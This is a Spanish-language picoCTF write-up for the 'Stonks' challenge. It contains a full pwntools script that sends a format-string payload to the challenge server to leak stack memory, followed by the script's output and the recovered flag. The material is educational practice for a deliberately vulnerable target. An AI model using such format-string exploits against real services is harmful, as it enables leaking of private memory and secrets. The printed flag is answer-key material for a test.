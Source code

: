 # Stonks

## Objetivo.

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/f9d545499faf6f436853685ad21dcb33/vuln.c) `nc mercury.picoctf.net 33411`

## Solución.

**Con el siguiente script obtendremos la bandera** 

```
# import pwntools
from pwn import *

# string to write to
s = ""

# open up remote connection
r = remote('mercury.picoctf.net', 33411)

# get to vulnerability
r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")

# send string to print stack
r.send("%x" + "-%x"*40 + "\n")

# receive until the line we want
r.recvline()

# read in line
x = r.recvline()

# remove unwanted components
x = x[:-1].decode()

# parse to characters
for i in x.split('-'):
    if len(i) == 8:
        a = bytearray.fromhex(i)

        for b in reversed(a):
            if b > 32 and b < 128:
                s += chr(b)

# print string
print(s)
```

**Salida**
```
[+] Opening connection to mercury.picoctf.net on port 33411: Done
/home/frausto_san-picoctf/solve.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("View my")
/home/frausto_san-picoctf/solve.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
/home/frausto_san-picoctf/solve.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("What is your API token?\n")
/home/frausto_san-picoctf/solve.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x" + "-%x"*40 + "\n")
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}@/
[*] Closed connection to mercury.picoctf.net port 33411
```

**Bandera** picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}

## Notas opcionales.

## Referencias.